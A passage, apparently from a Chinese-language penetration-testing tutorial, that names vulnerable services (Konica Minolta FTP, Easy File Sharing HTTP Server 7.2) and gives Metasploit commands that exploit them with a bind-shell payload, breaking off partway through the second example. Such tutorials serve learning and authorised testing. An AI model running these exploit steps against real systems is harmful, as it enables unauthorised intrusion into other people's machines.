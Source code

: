 Konica Minolta FTP 有漏洞：

![如何操作...](img/image_04_037.jpg)

Blue Coat 身份验证和授权代理（BCAAA）有漏洞：

![如何操作...](img/image_04_038.jpg)

Easy File Sharing HTTP Server 7.2 也有漏洞。让我们看看它们是否可以被利用。

1.  我们将首先测试 FTP。在 Metasploit 控制台中输入以下命令开始：

```
          use exploit/windows/ftp/kmftp_utility_cwd
          set rhost <Target IP address>
          set payload windows/shell_bind_tcp
          exploit

    ```

输出将如下截屏所示：

![如何操作...](img/image_04_039.jpg)

1.  我们成功地得到了一个 shell。现在让我们测试 Easy File Sharing HTTP Server。在 Metasploit 终端中输入以下命令：

```
          use exploit/windows/http/easyfilesharing_seh
          set rhost <Target IP address>
          set payload windows/shell_bind_tcp
          exploit
